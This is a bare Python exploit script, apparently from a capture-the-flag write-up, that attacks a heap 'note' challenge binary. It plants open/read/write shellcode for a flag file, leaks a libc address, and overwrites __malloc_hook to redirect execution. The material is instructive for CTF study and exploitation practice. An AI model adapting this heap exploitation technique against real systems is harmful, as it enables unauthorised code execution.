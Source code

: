 ```python
add_note(0x100) # 5

shellcode = shellcraft.open('flag', 0)
shellcode += shellcraft.read(3, 0x66660300, 0x30)
shellcode += shellcraft.write(1, 0x66660300, 0x30)
edit_note(5, asm(shellcode))

# leak libc_addr
del_note(0)
main_arena_96 = show_note(0)
malloc_hook = main_arena_96 - 0x70
LOG_ADDR('malloc_hook', malloc_hook)
edit_note(4, 0xb8 * b'\x00' + p64(malloc_hook))

add_note(0x100) # 6
edit_note(6, p64(0x66660000))

io.sendlineafter("Your Choice: ", '1')
io.sendlineafter("size: ", str(100))

io.interactive()
```







